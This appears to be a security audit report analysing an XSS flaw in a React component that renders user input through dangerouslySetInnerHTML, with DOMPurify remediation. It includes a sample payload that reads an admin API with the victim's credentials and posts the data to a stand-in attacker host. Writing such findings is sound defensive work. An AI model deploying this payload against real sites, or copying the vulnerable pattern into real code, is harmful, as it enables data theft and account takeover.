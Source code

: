 # 🚨 **CRITICAL ISSUES DETAILED ANALYSIS**

## **📊 EXECUTIVE SUMMARY**

This document provides a detailed analysis of the **8 CRITICAL ISSUES** identified in the advanced deep investigation. Each issue is analyzed with technical details, impact assessment, and specific remediation steps.

---

## **🔴 CRITICAL ISSUE #1: ADVANCED XSS VULNERABILITIES**

### **📋 Issue Details**
- **Severity**: CRITICAL
- **CVSS Score**: 9.8/10
- **Category**: Security - Injection
- **Affected Components**: Dynamic content rendering, user-generated content

### **🔍 Technical Analysis**
```typescript
// VULNERABLE CODE PATTERN
const renderUserContent = (userInput: string) => {
  return <div dangerouslySetInnerHTML={{ __html: userInput }} />;
};

// ATTACK VECTOR
const maliciousInput = `
  <img src="x" onerror="
    fetch('/api/admin/users', {
      method: 'GET',
      credentials: 'include'
    }).then(r => r.json()).then(data => 
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      })
    )
  " />
`;
```

### **💥 Impact Assessment**
- **Data Theft**: Complete user database access
- **Account Takeover**: Admin privilege escalation
- **Business Impact**: Complete system compromise
- **Legal Impact**: GDPR violation, regulatory fines

### **🛠️ Remediation Steps**
1. **Server-Side Sanitization**
```typescript
import DOMPurify from 'dompurify';

const sanitizeHtml = (html: string): string => {
  return DOMPurify.sanitize(html, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br'],
    ALLOWED_ATTR: []
  });
};
```
